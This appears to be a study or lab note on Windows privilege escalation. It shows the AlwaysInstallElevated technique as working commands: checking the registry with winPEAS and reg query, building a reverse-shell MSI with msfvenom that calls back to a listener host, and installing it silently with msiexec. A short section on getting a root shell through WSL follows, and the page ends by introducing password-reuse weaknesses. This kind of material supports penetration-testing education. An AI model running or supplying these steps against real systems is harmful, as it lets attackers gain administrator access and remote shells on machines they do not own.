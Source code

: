 ## AlwaysInstallElevated

MSI files are package files used to install applications.
These files run with the permissions of the user trying to install them.
Windows allows for these installers to be run with elevated (i.e. admin) privileges.
If this is the case, we can generate a malicious MSI file which contains a reverse shell.

The catch is that two Registry settings must be enabled for this to work.
The `AlwaysInstallElevated` value must be set to 1 for both the local
machine: `HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer`
and the current user: `HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer`
If either of these are missing or disabled, the exploit will not work.

### Privilege Escalation
1. Use winPEAS to see if both registry values are set:
```
.\winPEASany.exe quiet windowscreds
```
2. Alternatively, verify the values manually:
```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```
3. Create a new reverse shell with msfvenom, this time using the msi format, and save it with the .msi extension:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.11 LPORT=53 -f msi -o reverse.msi
```
4. Copy the reverse.msi across to the Windows VM, start a listener on Kali,
and run the installer to trigger the exploit:
```
msiexec /quiet /qn /i C:\PrivEsc\reverse.msi
```

# Windows Subsystem for Linux

```
where /R c:\windows bash.exe
where /R c:\windows wsl.exe
wsl.exe whoami
./ubuntu1604.exe config --default-user root
wsl.exe whoami
wsl.exe python -c 'reverse shell'
```

# Bad Password Practices

Even administrators re-use their passwords, or leave their passwords on systems in readable locations.
Windows can be especially vulnerable to this, as several features of Windows store passwords insecurely.
